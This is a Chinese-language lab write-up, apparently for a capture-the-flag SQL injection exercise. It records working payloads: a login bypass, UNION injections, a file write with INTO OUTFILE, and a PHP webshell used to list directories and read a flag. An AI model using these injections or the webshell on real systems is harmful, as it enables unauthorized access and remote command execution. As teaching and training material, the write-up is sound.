






# SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条，绕过权限进入页面。
```

```sql
' or 1=1 limit 1 -- #
```


```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不进行过滤处理，综合步骤1考虑判断本网站存在SQL注入漏洞。
```

```sql
' union select 1,2,3,4 -- #
```


```blank
3.通过尝试，发现union拼接列数为5，其中2-5条返回至前端。
```

```sql
' union select 1,2,3,4,5 -- #
```



```blank
4.查询用户是否有权限，第二列结果为Y，表示用户有权限。
```

```sql
cn' union select 1, SUPER_PRIV, 3, 4, 5 from MYSQL.USER where user="ROOT"-- #
```



```blank
5.尝试写入文件，通过URL访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

```url
http://64.227.32.37:30644/dashboard/proof.txt
```



```blank
6.写入shell.php文件，拿到Webshell。尝试执行ls命令查看目录下的文件。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

```bash
ls
```



```blank
7.使用Webshell执行下列URL，获取系统/目录下的所有文件，发现有flag的文件，文件名为flag_cae1dadcd174.txt。
```

```bash
ls /
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```


```blank
8.执行cat读取命令，获取flag。
flag为：528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```



### 结果截图



---
